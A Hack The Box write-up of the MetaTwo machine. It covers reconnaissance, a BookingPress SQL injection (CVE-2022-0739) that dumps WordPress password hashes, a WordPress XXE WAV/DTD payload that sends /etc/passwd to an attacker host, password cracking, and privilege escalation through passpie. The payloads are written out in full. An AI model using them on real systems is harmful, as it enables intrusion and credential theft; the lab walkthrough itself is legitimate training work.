 # MetaTwo Writeup - by Thammanant Thamtaranon  
- MetaTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.186`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed multiple open ports:  
  - 21 (FTP)  
  - 22 (SSH)  
  - 80 (HTTP)  
  - 25764 (Unknown)  
  - 52677 (Unknown)  
- We then added `metapress.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I tried connecting to FTP, but it did not allow anonymous login.
- We attempted directory brute-forcing using `dirsearch`, but it timed out, similar to `gobuster`.  
- Using Burp Suite to inspect requests, we discovered a plugin `bookingpress` version 1.0.10.  
![Plugin](Plugin.png)

## Exploitation  
- We researched BookingPress 1.0.10 and found **CVE-2022-0739**, an Unauthenticated SQL Injection vulnerability.  
- Following the PoC, we first identified the `_wpnonce` value.  
![Nonce](Nonce.png)  
- We then executed a crafted request to extract database version information and confirmed SQL Injection worked.
```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
![Version](Version.png)  
- Next, we extracted user credentials from the database, finding users `admin` and `manager`.
```bash
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=<_wpnonce_value>&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,1,2,3,4,5,6 from wp_users-- -'
```
![Credentials](Credentials.png)  
- We saved the hashes and cracked them using John the Ripper.  
![Manager](Manager.png)  
- Using the cracked credentials, we logged in as `manager` in WordPress.  
- The WordPress version was 5.6.2. Research revealed **CVE-2021-29447**, an XXE vulnerability when uploading WAV audio files with crafted metadata.  
- We created a malicious `payload.wav` and corresponding DTD file to exfiltrate `/etc/passwd`.
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.16.11:8000/xx3.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```
```bash
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<attacker_ip>:8000/?leak=%file;'>">
``` 
![PASSWD1](PASSWD1.png)  
- Decoding the returned data confirmed the user `jnelson`.
```bash
echo '<BASE64_DATA>' | base64 --decode | php -r 'echo zlib_decode(file_get_contents("php://stdin"));'
```
- Attempting SSH initially failed, so we inspected the WordPress configuration and found the FTP credentials.  
![WP_Config1](WP_Config1.png)  
![WP_Config2](WP_Config2.png)  
- Using the credentials, we connected via FTP.  
![FTP](FTP.png)  
- We also discovered hardcoded credentials in `send_email.php`.  
![Jnelson_Cred](Jnelson_Cred.png)  
- Using these, we SSH’ed into the machine as `jnelson` and obtained the user flag.  
![Jnelson](Jnelson.png)

## Privilege Escalation  
- Listing files revealed a hidden directory `.passpie`.  
- Inside `/.passpie/ssh`, we found `root.pass`, which required a passphrase.  
- We downloaded `.keys` to our machine, extracted the private key block into `private.key`, and ran `gpg2john private.key > pgp.hash`, followed by `john --wordlist=/usr/share/wordlists/rockyou.txt pgp.hash`.  
![Cracked](Cracked.png)  
- On the target machine, we executed `passpie export ../passwords.txt` to extract credentials.  
- Finally, using `su root` with the retrieved password, we gained a root shell and captured the root flag.  
![Root](Root.png)
